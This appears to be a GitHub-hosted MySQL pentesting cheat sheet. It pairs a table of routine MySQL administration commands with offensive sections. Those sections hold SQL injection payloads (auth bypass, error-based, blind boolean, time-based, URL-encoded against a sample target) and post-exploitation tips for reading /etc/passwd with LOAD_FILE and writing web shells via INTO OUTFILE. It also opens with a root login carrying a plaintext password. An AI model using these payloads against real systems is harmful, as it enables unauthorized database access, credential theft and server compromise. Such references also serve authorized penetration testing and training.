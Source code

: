 # 1337Codes MySQL Cheat Sheet

mysql -u root -p'root' -h 192.168.148.16 -P 3306 --ssl-verify-server-cert=disabled

MySQL Server Instance  
├── Databases (Schemas)  
│ ├── Tables  
│ │ ├── Columns  
│ │ ├── Indexes  
│ │ └── Constraints  
│ ├── Views  
│ ├── Stored Procedures  
│ ├── Functions  
│ ├── Triggers  
│ └── Events  
├── Users & Privileges  
├── Information Schema (System Metadata)  
├── Performance Schema (Monitoring)  
└── Logs & Configuration

| **Task** | **MySQL Command** | **Notes** |
| --- | --- | --- |
| **Show all databases** | `SHOW DATABASES;` | Lists all databases on the MySQL server |
| **Use a database** | `USE your_database_name;` | Select a database to work with |
| **Show all tables** | `SHOW TABLES;` | Lists tables in the selected database |
| **Show table structure** | `DESCRIBE your_table_name;` | Lists columns, types, nullability, keys |
| **List columns of a table** | `SHOW COLUMNS FROM your_table_name;` | Similar to `DESCRIBE` |
| **List all users** | `SELECT User, Host FROM mysql.user;` | Users + where they can connect from |
| **Create a new user** | `CREATE USER 'username'@'host' IDENTIFIED BY 'password';` | Host can be `%` for any IP |
| **Grant privileges to a user** | `GRANT ALL PRIVILEGES ON db_name.* TO 'username'@'host';` | Use `FLUSH PRIVILEGES;` after for changes to take effect |
| **Show user privileges** | `SHOW GRANTS FOR 'username'@'host';` | Shows what permissions a user has |
| **Delete a user** | `DROP USER 'username'@'host';` |     |
| **List all databases and sizes** | Query `information_schema.SCHEMATA` and `information_schema.TABLES` | Combine to get storage info |
| **List all processes (connections)** | `SHOW PROCESSLIST;` | View running queries and sessions |
| **Kill a connection** | `KILL process_id;` | Use `Id` from `SHOW PROCESSLIST` |
| **Current database** | `SELECT DATABASE();` | Returns the name of the current DB |
| **Current user** | `SELECT CURRENT_USER();` or `SELECT USER();` | Shows connected user |
| **Show indexes on a table** | `SHOW INDEXES FROM your_table_name;` | Index name, columns, uniqueness info |
| **List foreign keys and constraints** | `SELECT * FROM information_schema.REFERENTIAL_CONSTRAINTS;` | Also check `KEY_COLUMN_USAGE` |
| **Get table size** | Query `information_schema.TABLES` | Use `DATA_LENGTH + INDEX_LENGTH` for total size |
| **Export a database** | `mysqldump -u user -p dbname > dump.sql` | Backup DB |
| **Import a database** | `mysql -u user -p dbname < dump.sql` | Restore DB |
| **Show server version** | `SELECT VERSION();` | MySQL version info |
| **Check server status** | `SHOW STATUS;` | Server statistics |
| **List functions or procedures** | `SHOW FUNCTION STATUS;` / `SHOW PROCEDURE STATUS;` | Filter by DB name for clarity |

---

## 🧠 Tips & Tricks for MySQL Enumeration

- 🔍 **Enumerate privileges** per user to discover overly privileged accounts.
- 📌 Use `SHOW VARIABLES LIKE '%secure%';` to understand security-related configurations.
- 🕵️ **Information disclosure** can be achieved using error-based enumeration (`AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(...))x)`).
- 💡 MySQL errors can leak data during injections — test queries like `' AND (SELECT 1 FROM mysql.user LIMIT 1); --`.
- ⚙️ Use `SHOW GLOBAL VARIABLES;` and `SHOW GLOBAL STATUS;` to enumerate configuration and server state.

---

## 🛡️ Post-Exploitation

- 📝 Check logs: `SHOW VARIABLES LIKE 'log_error';` then read it using `LOAD_FILE()`.
- 🐚 File read/write via `SELECT LOAD_FILE('/etc/passwd');` and `INTO OUTFILE`.
- 🔗 Use `SELECT ... INTO DUMPFILE` for potential code execution vectors (Web shells, etc.).


---

## 🎯 SQL Injection in MySQL

### 🔍 Classic Auth Bypass
```sql
' OR '1'='1' --
admin' -- 
admin'/*
```

### 🧪 Error-Based
```sql
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT user()), FLOOR(RAND(0)*2)) AS x FROM information_schema.tables GROUP BY x) AS y) -- 
```

### 🕵️ Blind Boolean
```sql
' AND 1=1 -- (True)
' AND 1=2 -- (False)
```

### ⏱️ Time-Based (Blind)
```sql
' AND SLEEP(5) --
```

### 🌐 URL-Encoded Examples
```text
https://target.com/product?id=1+AND+1=1--
https://target.com/product?id=1'+AND+SLEEP(5)--+
```

---

## 🔍 MySQL Injection Tips

- Use `UNION SELECT NULL,...` to test column count and data retrieval.
- Look for `information_schema.tables`, `information_schema.columns` for metadata.
- Use `BENCHMARK(1000000,MD5('test'))` as a blind timing test.
